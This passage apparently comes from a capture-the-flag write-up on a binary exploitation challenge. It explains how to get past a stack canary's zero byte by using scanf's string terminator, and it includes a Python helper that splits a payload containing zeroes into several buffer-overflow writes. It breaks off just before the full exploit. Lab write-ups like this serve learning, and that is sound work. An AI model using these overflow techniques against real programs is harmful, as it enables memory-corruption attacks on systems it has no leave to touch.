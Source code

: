 By consulting glibc source code, it is possible to see that [the stack cookie will always contain a zero byte](https://elixir.bootlin.com/linux/v6.11.5/source/include/linux/stackprotector.h#L10), namely the least significant byte. We can easily skip reading that, but how to write it?

`scanf()` does not allow us to write zeroes, or does it? If you recall, in the *"Programming in C 101 course"*, you learned that C strings are **zero terminated**. `scanf()` follows this standard and all the strings it scans will be zero terminated. Since we are able to call our write primitive multiple times without triggering the exploit, we are able to write an arbitrary number of zeroes.

For each zero starting from the last, we will need to write all the data between the current zero and the next, filling the rest with valid characters:

```py
# https://stackoverflow.com/a/34445090
def findall(p: bytes, s: bytes):
    i = s.find(p)
    while i != -1:
        yield i
        i = s.find(p, i+1)

# Utility function to write payloads having zeroes in it using multiple writes and scanf string terminator.
def bof(data: bytes):
    zeroes = list(findall(b"\x00", data))[::-1]
    for i,z in enumerate(zeroes):
        if i == len(zeroes) - 1:
            payload = data[:z]
        else:
            j = zeroes[i+1]
            payload = flat({j+1: data[j+1:z]}, length=len(data[:z]))
        _bof(payload) # Dumb buffer overflow primitive
```

If you want to visualize it, follows an example (where the ඞ character represents any valid character):

```py
 bof(b"hack\x00the\x00\x00planet")
 |->
_bof(b"ඞඞඞඞඞඞඞඞඞඞplanet")
_bof(b"ඞඞඞඞඞඞඞඞඞ")
_bof(b"ඞඞඞඞඞthe")
_bof(b"hack")
```

### Problem 3: Writing bad bytes

What if the `win` function address or the stack cookie contains bytes which are valid for the read primitive but invalid for the write one? In this case, the only way to handle this case is to retry. A real exploit would need to do it automatically, I decided to just let the exploit crash on an `assert()` and let the user try again manually.

### Intended solution

Using [pwntools](https://docs.pwntools.com/en/stable/) the intended solution looked something like this:
